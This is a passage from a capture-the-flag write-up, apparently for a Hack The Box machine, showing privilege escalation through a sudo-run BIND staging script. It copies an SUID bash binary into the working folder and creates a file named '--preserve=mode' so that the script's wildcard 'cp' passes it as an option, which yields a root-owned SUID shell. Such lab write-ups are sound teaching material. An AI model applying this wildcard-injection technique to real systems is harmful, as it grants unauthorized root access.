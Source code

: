 ```bash
```

In the first conditional, the script checks if **.version** file doesn't exists in the current folder. The second conditional is **False** only if **.version** is a number greater than 0. The **.version** file has been created in order to make these conditionals **False**.

```console
bindmgr@dynstr:/tmp/pwn$ echo "1" > .version
bindmgr@dynstr:/tmp/pwn$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/pwn.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
cp: cannot stat '*': No such file or directory
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/*: file not found
```

After by passing the first two conditionals the script copies all files in the current folder to /etc/bind/named.bindmgr with `cp .version * /etc/bind/named.bindmgr/` command. We can take advantage by copying a bash binary with SUID permissions.

```console
bindmgr@dynstr:/tmp/pwn$ cp /bin/bash .
bindmgr@dynstr:/tmp/pwn$ chmod +s /bin/bash
bindmgr@dynstr:/tmp/pwn$ ls -la
total 1168
drwxrwxr-x  2 bindmgr bindmgr    4096 Oct 17 17:21 .
drwxrwxrwt 13 root    root       4096 Oct 17 17:09 ..
-rw-rw-r--  1 bindmgr bindmgr       2 Oct 17 17:11 .version
-rwsr-sr-x  1 bindmgr bindmgr 1183448 Oct 17 17:21 bash
```

To mantain all privileges of the files during the copying, the command should be `cp .version * --preserve=mode /etc/bind/named.bindmgr`. If we create an empty file called **--preserve=mode** the command will interpret this as a parameter, not as a file (will be included in '\*'). Let's create this empty file and run the script as sudo.

```console
bindmgr@dynstr:/tmp/pwn$ echo > --preserve=mode
bindmgr@dynstr:/tmp/pwn$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/pwn.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/--preserve=mode: file not found
```

At this point the **bash** binary should been copied to `/etc/bind/named.bindmgr` with SUID permission. Let's check if this is true.

```console
bindmgr@dynstr:/etc/bind/named.bindmgr$ ls -l
total 1156
-rwsr-sr-x 1 root bind 1183448 Oct 17 17:32 bash
```
